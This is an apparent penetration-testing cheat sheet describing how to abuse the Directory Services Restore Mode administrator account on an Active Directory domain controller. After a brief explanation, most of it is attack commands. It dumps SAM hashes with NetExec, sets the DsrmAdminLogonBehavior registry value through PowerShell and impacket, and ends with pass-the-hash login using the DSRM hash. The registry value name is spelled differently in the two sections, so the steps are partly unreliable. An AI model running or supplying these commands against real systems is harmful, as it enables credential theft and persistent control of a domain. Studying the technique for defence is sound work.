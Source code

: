 # Directory Service Restore Mode (DSRM)

Directory Services Restore Mode (DSRM) is a safe boot mode which allows emergency access to the Domain Controller for database repairs and recovery. When Active Directory is initially setup the Administrator will be prompted for a password to use for DSRM if ever needed.

## NOTE: DSRM creates a local administrator account on the Domain Controller that is different from the Domain administrator account.

## Requirements: Obtain Local Admin hash on the Domain Controller

### After dumping local admin hash on the domain controller, run:

##### Check if key exists

    Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour'

##### If key exists and value is not set to 2

    Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -Verbose

##### If key does not exist then create it

    New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -PropertyType DWORD -Verbose

## Linux

### 1) Dump DSRM Password

    nxc smb <DC_IP> -u user1 -p password --sam

### 2) Change registry configuration

Need to change the logon behavior before pass the hash

    reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local add -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'DsrmAdminLogonBehavior' -vd 2 -vt REG_DWORD

Now the DSRM hash can be used to authenticate
